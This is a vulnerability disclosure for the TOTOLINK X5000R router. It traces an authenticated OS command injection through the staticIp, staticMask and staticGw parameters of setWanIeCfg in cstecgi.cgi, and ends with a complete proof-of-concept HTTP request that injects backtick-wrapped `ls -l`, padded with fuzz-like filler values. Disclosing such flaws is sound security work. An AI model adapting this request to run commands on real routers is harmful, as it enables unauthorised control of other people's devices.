



# totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWanIeCfg`.Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWanIeCfg` (at 0x411324), binary /cgi-bin/cstecgi.cgi. The parameter `staticIp`,`staticMask`,`staticGw` are passed to 'Uci_set_str' without any check.

Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.


## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 1016
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setWanIeCfg", "wanMode": "aa`wvqaaaa\\a^be]aaaaead^]]a\\ad\\aaaaa]aa^aaa`baa]aaaaecaacaaa_aaaaabaa\\ad]\\aaaad`aaedaaa^_aawzqt^aab_^e_aaa^b`aaaaa]auztwaa\\a``aa", "1": ")yzq", "switchOpMode": "aaazzq\\bab__^bc]aa_\\caada_aa^`a^aaeaa`a]aacaa\\`aaeadaaaa^`aa_^a\\baaaaaeaaaab_a\\abaa\\aaa^aad{xqwabaaa`ba\\eaa_aaaaaaa^y{qt_]acaaaa", "0": "wumwzrwuq", "staticIp": "`ls -l`", "staticMask": "`ls -l`", "staticGw": "`ls -l`", "staticMtu": ")&`vzo`", "dhcpMtu": "]\\a\\]aae\\a]a^a^]`eaxuqw\\a^aaaa_]da^aaaaaecadebaaad]aaabaaeca`]a_aaaba]daatzts{a_^ac]daccaaaaaaa_aae^aaaeaaadbaaa_d_aa`^a_aaaaa`aaa]`aea]^aaa`daaa_aaaaadeaaaaae", "pppoeUser": "vzq{{q{zq", "pppoeMtu": "ba]zzqa\\]a\\aa]`^ccaab_`aaaa_a`aaa]aaeaa_aeed\\ba_aca`aeaaa^e_aaaaaaaa`_e]aa`a`e]acacaadaaaaeyzqwacc]aadaaaca\\aa_eaaaawzqracaba__a", "1492": "7twq", "dnsMode": "w~q{zq{zq", "priDns": "a_axxqaabe]b\\ca]ab_aaac`^eaad]]ab\\a_ba^aaea\\]aa^aa]a_ab_dc\\e_aaa`a^aaaaa]_]acbaaaa^_a]aababw|ut_e\\aaaea]a^aaa_aac_c]uzqsaaaaaaaa", "secDns": "ywswwqrxq"}
```
